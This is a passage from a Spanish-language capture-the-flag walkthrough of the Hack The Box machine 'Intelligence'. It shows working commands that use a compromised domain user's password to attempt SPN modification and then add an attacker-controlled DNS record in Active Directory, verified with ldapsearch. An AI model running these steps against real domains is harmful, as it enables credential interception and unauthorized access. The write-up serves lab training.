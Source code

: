 📡 ***SPN:*** *Es un -nombre- que un cliente usa para identificar una instancia de un servicio*. [SPNs in Active Directory](https://help.zaptechnology.com/zap%20cubexpress/currentversion/content/topics/HowTo/UsingSPN.htm).

```bash
❱ python3 addspn.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -s 'host/webclaroquesi.intelligence.htb' -t dc.intelligence.htb ldap://intelligence.htb
```

Pero en su ejecución nos indica:

```bash
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[!] Could not modify object, the server reports insufficient rights: 00002098: SecErr: DSID-03150F94, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
```

Básicamente, no tenemos permisos para modificar, esto nos hace dudar de si la explotación va por acá, pero aún tenemos el otro recurso, probémoslo para salir de dudas:

Con él agregamos un registro **DNS** al servidor, que es nuestra idea inicial, el añadir un subdominio con nombre `web...` y que apunte a nosotros, su ejecución es muy sencilla e intuitiva.

Le pasamos las credenciales, el subdominio a agregar (`webclaroquesi.intelligence.htb`) la dirección IP a la que debe resolver (`10.10.15.1`, la nuestra) y finalmente la dirección del servidor **DNS**:

```bash
❱ python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webclaroquesi.intelligence.htb -a add -d 10.10.15.1 10.10.10.248
```

Obtenemos:

```bash
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

:o Parece que se realizó todo correctamente, por lo tanto, se tuvo que haber agregado el subdominio, podemos validarlo ejecutando la misma consulta que hace el script de `Ted`:

```bash
❱ ldapsearch -h 10.10.10.248 -D 'intelligence\Tiffany.Molina' -w 'NewIntelligenceCorpUser9876' -b "DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | grep web
# webclaroquesi, intelligence.htb, MicrosoftDNS, DomainDnsZones.intelligence.ht
dn: DC=webclaroquesi,DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=
distinguishedName: DC=webclaroquesi,DC=intelligence.htb,CN=MicrosoftDNS,DC=Dom
name: webclaroquesi
dc: webclaroquesi
```
